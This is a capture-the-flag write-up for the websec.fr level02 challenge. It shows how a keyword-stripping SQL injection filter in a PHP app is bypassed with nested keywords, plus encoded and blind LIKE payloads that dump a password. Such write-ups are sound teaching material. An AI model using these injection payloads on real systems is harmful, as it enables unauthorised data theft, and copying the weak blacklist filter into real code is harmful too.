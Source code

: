 # level02 - 2 points
[Link to the challenge](http://websec.fr/level02)

## Description
```
Nothing fancy, with a twist
```
This application is the same as the previous one (You can check by yourself if you don't trust us). However, the developers saw the logs and found that the application was being attacked so they filtered out some of the database keywords which made it possible.
The following keywords were found to be filtered by the application using preg_replace (): union, order, select, from, group, by.

## Write-up
From the level01 challenge we know that there's a injection vector in:
``` SQL
$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
```
`$injection` comes from the `user_id` parameter (`$_POST['user_id']`). 

The challenge was pretty similar to Level 01, however, now there's was filter:
``` PHP
$searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
$injection = preg_replace ('/' . $searchWords . '/i', '', $injection);
```

I wasted a lot of time ignoring the obvious problem, so I tried encoding the payload `1 UNION SELECT id, password FROM users;--`:
``` PHP
base64_decode('MSBVTklPTiBTRUxFQ1QgbnVsbCwgc3FsIEZST00gc3FsaXRlX21hc3RlciBXSEVSRSB0eXBlPSd0YWJsZSc7IC0t'); // didn't work
urldecode('1%20UNION%20SELECT%20null%2C%20sql%20FROM%20sqlite_master%20WHERE%20type%3D\"table\"%3B%20--'); // didn't work
hex2bin("3120554e494f4e2053454c4543542069642c2070617373776f72642046524f4d2075736572732057484552452069643d313b202d2d"); // didn't work
```

Then, I tried using Burp to "guess" the password character by character sending POSTs with `user_id=1 AND password LIKE "WEBSEC{%"--&submit=Submit+Query`. I got to "WEBSEC{Beca" and gave up.

So i stopped for a second and thought "hm this filter looks pretty unsafe..." so I tested it with  this:
``` PHP
<?php
    $injection = "1 UUNIONNION SSELECTELECT id, password FFROMROM users;--";
    $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
    $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);
    
    echo "AFTER REPLACING: " . $injection;
?>
```
Output: `AFTER REPLACING: 1 UNION SELECT id, password FROM users;--`

And done! The filter obviously was pretty weak... So I sent the following payload as the "user_id": `1 UUNIONNION SSELECTELECT id, password FFROMROM users;--`

And the program gave us as the flag:
```
Username for given ID: WEBSEC{BecauseBlacklistsAreOftenAgoodIdea} 

Other User Details:
id -> 1
username -> WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```

**Flag: `WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`**


